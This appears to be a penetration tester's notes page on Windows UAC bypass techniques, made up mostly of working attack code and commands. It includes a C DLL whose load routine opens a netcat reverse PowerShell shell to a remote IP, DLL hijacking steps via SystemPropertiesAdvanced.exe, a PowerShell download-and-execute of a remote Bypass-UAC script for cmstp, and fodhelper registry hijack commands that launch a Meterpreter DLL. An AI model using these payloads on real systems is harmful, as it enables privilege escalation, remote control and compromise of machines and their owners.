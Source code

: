 ```yaml
---
description: User Account Control
---
```


# UAC Bypass

* [https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)




## SystemPropertiesAdvanced.exe



### srrstr.dll

{% code title="main.c" %}
```c
 #include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
	switch(dwReason) {
		case DLL_PROCESS_ATTACH:
			WinExec("C:\\Users\\<USERNAME>\\Documents\\nc.exe 10.10.13.37 1337 -e powershell", 0);
		case DLL_PROCESS_DETACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
	}

	return 0;
}
```
{% endcode %}

Compile on Kali:

```
$ i686-w64-mingw32-g++ main.c -lws2_32 -o srrstr.dll -shared
```



### DLL Hijacking

Upload `srrstr.dll` to `C:\Users\%USERNAME%\AppData\Local\Microsoft\WindowsApps\srrstr.dll` and check it:

```
PS > rundll32.exe srrstr.dll,xyz
```

Exec and get a shell ("requires an interactive window station"):

```
PS > cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

* [https://egre55.github.io/system-properties-uac-bypass](https://egre55.github.io/system-properties-uac-bypass)
* [https://www.youtube.com/watch?v=krC5j1Ab44I&t=3570s](https://www.youtube.com/watch?v=krC5j1Ab44I&t=3570s)




## cmstp.exe

* [0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)

```
PS > IEX(New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/snovvcrash/362be57caaa167e7f5667156ac80f445/raw/1990959bc80b56179863aede06695bc499249744/Bypass-UAC.ps1')
PS > Bypass-UAC -C "C:\Users\snovvcrash\music\met.exe"
```




## fodhelper

* [https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692](https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692)

Create and set registry values (the payload is generated with [`charlotte.py`](/pentest/infrastructure/ad/av-evasion.md#charlotte)):

```
PS > New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
PS > New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
PS > Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "rundll32 C:\Windows\System32\spool\drivers\color\met.dll, SUJIzDKv" -Force
```

Trigger `fodhelper.exe`:

```
PS > Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

Cleanup:

```
PS > Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```
